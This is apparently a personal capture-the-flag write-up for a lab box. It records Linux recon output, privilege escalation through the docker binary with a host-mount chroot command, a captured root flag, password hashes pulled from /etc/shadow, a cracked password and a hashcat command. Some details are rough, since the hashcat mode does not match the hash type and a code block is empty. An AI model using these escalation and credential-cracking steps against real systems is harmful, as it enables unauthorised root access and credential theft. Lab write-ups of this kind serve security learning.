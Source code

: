 
I think now we got the shell of this box let's do some recon and see what we can do
![[Pasted image 20240818125838.png]]


```
c43l:$6$Zs4KmlUsMiwVLy2y$V8S5G3q7tpBMZip8Iv/H6i5ctHVFf6.fS.HXBw9Kyv96Qbc2ZHzHlYHkaHm8A5toyMA3J53JU.dc6ZCjRxhjV1:0:0:root:/root:/bin/bash
```


```
www-data@ip-10-201-11-33:/var/www$ find / -perm -u=s -type f 2>/dev/null
find / -perm -u=s -type f 2>/dev/null
/usr/lib/eject/dmcrypt-get-device
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/lib/openssh/ssh-keysign
/usr/bin/umount
/usr/bin/docker
/usr/bin/fusermount
/usr/bin/newgrp
/usr/bin/pkexec
/usr/bin/su
/usr/bin/gpasswd
/usr/bin/passwd
/usr/bin/at
/usr/bin/chfn
/usr/bin/sudo
/usr/bin/mount
/usr/bin/chsh
```


```
www-data@ip-10-201-11-33:/var/www$ env
env
PWD=/var/www
APACHE_LOG_DIR=/var/log/apache2
LANG=C
INVOCATION_ID=2806c7ef0c06427c965da7c8024dbae2
APACHE_PID_FILE=/var/run/apache2/apache2.pid
TERM=xterm
term=xterm
APACHE_RUN_GROUP=www-data
APACHE_LOCK_DIR=/var/lock/apache2
SHLVL=3
LC_CTYPE=C.UTF-8
APACHE_RUN_DIR=/var/run/apache2
JOURNAL_STREAM=9:23813
APACHE_RUN_USER=www-data
PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
OLDPWD=/var/www/html
_=/usr/bin/env
```


```
www-data@ip-10-201-11-33:/var/www$ getcap -r / 2>/dev/null
getcap -r / 2>/dev/null
/usr/lib/x86_64-linux-gnu/gstreamer1.0/gstreamer-1.0/gst-ptp-helper = cap_net_bind_service,cap_net_admin+ep
/usr/bin/traceroute6.iputils = cap_net_raw+ep
/usr/bin/mtr-packet = cap_net_raw+ep
/usr/bin/ping = cap_net_raw+ep
www-data@ip-10-201-11-33:/var/www$ 
```


```
www-data@ip-10-201-11-33:/var/www$ cat /etc/crontab
cat /etc/crontab
# /etc/crontab: system-wide crontab
# Unlike any other crontab you don't have to run the `crontab'
# command to install the new version when you edit this file
# and files in /etc/cron.d. These files also have username fields,
# that none of the other crontabs do.

SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# Example of job definition:
# .---------------- minute (0 - 59)
# |  .------------- hour (0 - 23)
# |  |  .---------- day of month (1 - 31)
# |  |  |  .------- month (1 - 12) OR jan,feb,mar,apr ...
# |  |  |  |  .---- day of week (0 - 6) (Sunday=0 or 7) OR sun,mon,tue,wed,thu,fri,sat
# |  |  |  |  |
# *  *  *  *  * user-name command to be executed
17 *    * * *   root    cd / && run-parts --report /etc/cron.hourly
25 6    * * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6    * * 7   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6    1 * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
```

## So it's time to get privilege escalation escalation

Docker
```
docker run -v /:/mnt --rm -it cb1b741122e8 chroot /mnt sh
```

![[Pasted image 20240818160415.png]]

We got the root access but the wrong once so will again access the right docker (i.e. ubuntu 18.04)
```
docker run -v /:/mnt --rm -it 56def654ec22 chroot /mnt sh
```

I was not able to find the root flag so we have repository name with ubuntu 18.04


So this time we get the right shell and got the root.txt so i have to keep this in mind that it was a loop hole and i have to do some smart work and choose the right way
```
# cat root.txt
cat root.txt
HOLO{e16581b01d445a05adb2e6d45eb373f7}
```


I have cat the /etc/shadow and got some hashes
```
ubuntu:!$6$6/mlN/Q.1gopcuhc$7ymOCjV3RETFUl6GaNbau9MdEGS6NgeXLM.CDcuS5gNj2oIQLpRLzxFuAwG0dGcLk1NX70EVzUUKyUQOezaf0.:18601:0:99999:7:::
```

```
linux-admin:$6$Zs4KmlUsMiwVLy2y$V8S5G3q7tpBMZip8Iv/H6i5ctHVFf6.fS.HXBw9Kyv96Qbc2ZHzHlYHkaHm8A5toyMA3J53JU.dc6ZCjRxhjV1:18570:0:99999:7:::
```

We have the linux password
```
linuxrulez
```

## Hashcat

```
.\hashcat.exe -m 18200 -D 2 .\hashes4.txt .\rockyou.txt -O
```

It took around 3-4 hours to do this 

![[Pasted image 20240821232619.png]]

Let's see if we can get the .ssh keys fingers closed
```

```


